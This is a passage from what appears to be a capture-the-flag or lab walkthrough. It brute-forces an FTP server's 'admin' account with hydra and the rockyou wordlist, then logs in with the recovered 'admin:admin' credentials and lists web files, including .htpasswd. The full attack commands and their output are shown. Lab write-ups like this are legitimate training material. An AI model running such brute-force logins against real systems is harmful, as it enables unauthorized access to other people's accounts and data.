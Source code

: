 ```
```

This directory contains a UAC account file for the `admin` user.

## Exploitation

### FTP User Login Brute-Force

Let's brute-force the `admin` account with `hydra` and the **rockyou.txt** wordlist.

```
kali@kali:~$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.68.46
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-27 17:43:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ftp://192.168.68.46:21/
[21][ftp] host: 192.168.68.46   login: admin   password: admin
[STATUS] attack finished for 192.168.68.46 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-27 17:43:44
kali@kali:~$
```

This reveals that the password is `admin`.

### Further FTP Enumeration

We can now log in to FTP with the `admin:admin` credentials and enumerate further.

```
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp>
```
